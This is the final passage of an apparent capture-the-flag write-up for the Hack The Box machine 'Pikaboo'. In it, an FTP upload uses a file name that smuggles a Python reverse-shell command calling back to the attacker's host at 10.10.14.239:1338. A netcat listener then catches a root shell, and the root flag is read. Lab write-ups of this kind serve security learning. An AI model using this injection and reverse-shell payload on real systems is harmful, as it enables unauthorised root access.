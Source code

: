 ```text
ftp> put test "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.239\",1338));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"
local: test remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.239",1338));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> 
```

The file called test is renamed to our payload as it's uploaded. Now switch to a waiting netcat listener to see we have a reverse shell connected as root:

```text
┌──(root💀kali)-[~/htb/pikaboo]
└─# nc -lvvp 1338
listening on [any] 1338 ...
connect to [10.10.14.239] from pikaboo.htb [10.10.10.249] 52370
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

You have to wait for the script to run which is every minute so it doesn't take long. Now we can finally get the root flag:

```text
# ls /root
root.txt  vsftpd.log

# cat /root/root.txt
bb9875a52788df2ec58b4721a089e18c
```

For me that really was a hard box, but some good learning from it so worth the effort.

All done. See you next time.
